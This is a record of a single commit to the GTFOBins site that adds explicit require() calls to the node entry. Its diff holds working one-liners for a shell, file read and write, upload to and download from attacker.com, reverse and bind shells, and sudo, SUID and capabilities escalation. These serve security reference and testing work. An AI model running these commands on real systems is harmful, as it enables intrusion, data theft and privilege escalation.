

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide and 1400 px high, scrolled down 222 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Explicitly require libraries in node
Close #315.

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -2,30 +2,30 @@
 functions:
   shell:
     - code: |
-        node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
+        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
   file-write:
-    - code: node -e 'fs.writeFileSync("file_to_write", "DATA")'
+    - code: node -e 'require("fs").writeFileSync("file_to_write", "DATA")'
   file-read:
-    - code: node -e 'process.stdout.write(fs.readFileSync("/bin/ls"))'
+    - code: node -e 'process.stdout.write(require("fs").readFileSync("/bin/ls"))'
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
         export URL=http://attacker.com/file_to_get
         export LFILE=file_to_save
-        node -e 'http.get(process.env.URL, res => res.pipe(fs.createWriteStream(process.env.LFILE)))'
+        node -e 'require("http").get(process.env.URL, res => res.pipe(require("fs").createWriteStream(process.env.LFILE)))'
   file-upload:
     - description: Send a local file via HTTP POST request.
       code: |
         export URL=http://attacker.com
         export LFILE=file_to_send
-        node -e 'fs.createReadStream(process.env.LFILE).pipe(http.request(process.env.URL))'
+        node -e 'require("fs").createReadStream(process.env.LFILE).pipe(require("http").request(process.env.URL))'
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
         export RHOST=attacker.com
         export RPORT=12345
-        node -e 'sh = child_process.spawn("/bin/sh");
-        net.connect(process.env.RPORT, process.env.RHOST, function () {
+        node -e 'sh = require("child_process").spawn("/bin/sh");
+        require("net").connect(process.env.RPORT, process.env.RHOST, function () {
           this.pipe(sh.stdin);
           sh.stdout.pipe(this);
           sh.stderr.pipe(this);
@@ -34,19 +34,19 @@ functions:
     - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
       code: |
         export LPORT=12345
-        node -e 'sh = child_process.spawn("/bin/sh");
-        net.createServer(function (client) {
+        node -e 'sh = require("child_process").spawn("/bin/sh");
+        require("net").createServer(function (client) {
           client.pipe(sh.stdin);
           sh.stdout.pipe(client);
           sh.stderr.pipe(client);
         }).listen(process.env.LPORT)'
   suid:
     - code: |
-        ./node -e 'child_process.spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
+        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
   sudo:
     - code: |
-        sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
+        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
   capabilities:
     - code: |
-        ./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
+        ./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
 ---
```
